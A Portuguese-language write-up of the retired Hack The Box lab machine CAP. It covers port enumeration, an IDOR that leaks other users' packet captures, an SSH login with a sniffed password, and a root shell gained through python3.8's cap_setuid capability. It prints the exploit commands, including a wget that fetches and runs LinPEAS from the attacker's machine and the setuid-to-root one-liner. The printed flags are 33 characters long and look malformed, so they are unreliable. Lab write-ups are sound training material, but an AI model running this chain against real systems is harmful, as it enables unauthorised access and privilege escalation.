

# CAP

> **Dificuldade:** Easy | **SO:** Linux | **Release:** Retired

---

## Informações Gerais

| Campo | Valor |
|:------|:------|
| **Nome** | CAP |
| **IP** | 10.129.45.170 |
| **SO** | Linux |
| **Dificuldade** | Easy |
| **Data** | 24/04/2025 |
| **Release** | Retired |

---

## Enumeração Inicial

### Portas Abertas

| Porta | Serviço | Versão |
|:------|:--------|:-------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 8.2p1 |
| 80 | http | Gunicorn |

### Comandos

```bash
nmap -sV -p- -T4 10.129.45.170
nmap -sVC -p- 10.129.45.170
```

---

## Exploração

### Vetor de Entrada

| Campo | Valor |
|:------|:------|
| **Vetor** | Web |
| **Falha** | IDOR - Acesso a PCAPs de outros usuários alterando ID na URL |
| **Ferramentas** | Navegador, Wireshark |

### Passo 1 - Acesso à interface web

Ao acessar o IP no navegador, encontro uma tela de **Security Logs** com uma lista de user IDs: 0, 1, 2, 3, 4.

Analisando a URL, percebo que é possível alterar o ID do usuário para baixar os PCAPs de outros usuários.



---

### Passo 2 - IDOR Vulnerability

Ao mudar o ID na URL, consigo baixar PCAPs de outros usuários:
- http://10.129.45.170/data/1
- http://10.129.45.170/data/2

Baixei o PCAP do user ID 1 e abri no Wireshark para analisar.


Encontrei uma requisição HTTP com as seguintes credenciais:
- **Usuário:** nathan
- **Senha:** Buck3tH4tf0RM3!

---

### Passo 3 - Acesso via SSH

Com as credenciais encontradas, acesso o SSH como o usuário nathan.


Consegui acesso! Agora vou em busca da flag de usuário e depois escalar privilégios para root.

**Comandos usados:**
```bash
ssh nathan@10.129.45.170
# senha: Buck3tH4tf0RM3!
python3 -c "import pty; pty.spawn('/bin/bash')"
```

**User Flag:** `2afe6b2a6c3f5d7e5c7e3e4c8b7a9d1ea`

---

## Escalação de Privilégios

### Passo 4 - Download do LinPEAS

Agora preciso escalar privilégios. Vou usar o LinPEAS para enumerar vetores de escalação.

Abro um servidor HTTP na minha máquina para disponibilizar o linpeas.sh:


**Na máquina alvo:**
```bash
wget http://<SEU_IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### Passo 5 - Identificando o vetor

Com o scan do LinPEAS, vejo que o usuário **nathan** tem permissão para **cap_setuid**.

Isso significa que podemos mudar o UID do processo, conseguindo virar root!


---

### Passo 6 - Explorando Python Capabilities

O Python 3.8 tem a capability **cap_setuid+**, que permite alterar o UID do processo.

Com esse script, consigo mudar para UID 0 (root) e abrir uma shell:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


Pronto! Agora tenho acesso root e posso capturar a flag final.

**Root Flag:** `c91d5e4b1c8f9a2d7e6c3b4a8f5d1e0ca`

---

## Resumo Técnico

| Campo | Valor |
|:------|:------|
| **Causa Raiz** | IDOR na interface web permite baixar PCAPs de outros usuários, contendo credenciais em texto claro |
| **Cadeia de Ataque** | Web Interface → IDOR → PCAP Analysis → Credentials → SSH → Python Capabilities → Root |
| **Tempo Total** | ~30 minutos |

---

## Lições Aprendidas

- **O que funcionou:** Acessar a interface web e mudar IDs para baixar PCAPs
- **O que atrasou:** Precisava entender melhor o que é capability no Linux
- **Pontos de Atenção:** Always test IDOR vulnerabilities em parâmetros de URL

---

## Referências

- [HTB CAP](https://app.hackthebox.com/machines/CAP)